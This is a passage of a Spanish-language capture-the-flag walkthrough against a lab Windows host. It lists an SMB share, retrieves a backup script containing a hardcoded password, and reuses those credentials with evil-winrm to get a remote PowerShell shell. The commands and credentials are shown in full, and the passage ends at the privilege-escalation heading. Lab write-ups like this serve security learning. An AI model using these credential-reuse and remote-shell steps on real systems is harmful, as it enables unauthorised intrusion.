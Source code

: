 
```shell
smbclient //10.10.11.35/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3' 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 447669 blocks available
smb: \> get "Backup_script.ps1"
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (2.9 KiloBytes/sec) (average 2.9 KiloBytes/sec)
smb: \> exit
```
Al igual que antes nos encontramos con un fichero `Backup_script.ps1` por lo tanto voy a proceder a descargarlo y ver el contenido. 

```shell
cat Backup_script.ps1   

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Nos encontramos un usuario nuevo y una contraseña por lo tanto vamos comprobar si podemos acceder con este usuario
y con la herramienta evil-winRM  obtenmos una shell.


## Intrusión en el sistema

```shell
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'


*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> ls



```
Como se puede apreciar obtenemos una shell y por lo tanto podemos ir al directorio y obtner la primera flags


## Escalada de privilegios
